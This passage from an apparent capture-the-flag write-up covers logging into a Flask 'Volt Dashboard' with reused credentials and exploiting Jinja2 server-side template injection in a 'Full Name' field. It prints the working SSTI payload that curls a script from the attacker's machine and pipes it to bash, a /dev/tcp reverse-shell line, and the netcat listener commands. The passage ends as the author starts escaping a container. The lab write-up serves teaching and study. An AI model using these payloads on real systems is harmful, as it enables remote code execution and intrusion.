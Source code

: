 ![]({{ image_path }}{{ page.name }}/vhost.png)

I added it to my `/etc/hosts` and arrived at another login portal. The first thing I noticed was that this login portal expected different types of credentials. The previous one had been an email, but this one expected a username. Before doing any more deep diving, I tried the same credentials, but in the username, I removed the domain.

![]({{ image_path }}{{ page.name }}/flasklogincreds.png)

### SSTI in Flask/Jinja
More than specifically seeing any potential on this "General Information" page, I used process of elimination, as the other links or buttons had no meaningful action. 
*I often look for keywords that hint at names of technologies and even their versions*
On top of the fact that I could probably exploit the input boxes, I also saw "Flask Volt Dashboard" in the order of the page. So I searched: "Flask Volt Dashboard exploit".

![]({{ image_path }}{{ page.name }}/dashboard.png)

I came across this post: https://kleiber.me/blog/2021/10/31/python-flask-jinja2-ssti-example/
Reading this post made me understand that I could possibly exploit a template that directly called data from a database. Therefore rather than passing the expected data, in this case, a "Full Name", I could pass data in Jinja's syntax, that would execute as my payload.

So I tried it:

![]({{ image_path }}{{ page.name }}/flasklogincreds.png)

And wah-lah, it worked :P! After having POC (Proof of Concept), I used the following exploit to obtain RCE (Remote Code Execution), that would grab a file containing commands for a reverse shell from my attacking machine.
1. Configure the revshell executable to be grabbed: 
    - Create a file called `revshell`
    - Populate with: 
    ```
    #!/bin/bash
    -c "bash -i >& /dev/tcp/10.10.14.22/6666 0>&1"
    ```
2. Set up the listener: `nc -lvnp 6666`
3. Set up the web server: `python3 -m http.server 80`
4. Submit the request with the payload as the "Full Name": `{{request.application.__globals__.__builtins__.__import__('os').popen('curl 10.10.14.22/revshell | bash').read()}}`

And there was my shell! But ew, what the fudge, it looks like I'm in a container ):

![]({{ image_path }}{{ page.name }}/container.png)


### Escaping the Container
The first thing I did was look around the container. I had landed in `/backend/` when I initiated the shell. I looked around but never found anything actually important.

I then progressed to `linpeas`. Although it wasn't highlighted, I notice that there was a user in the home directory?! 
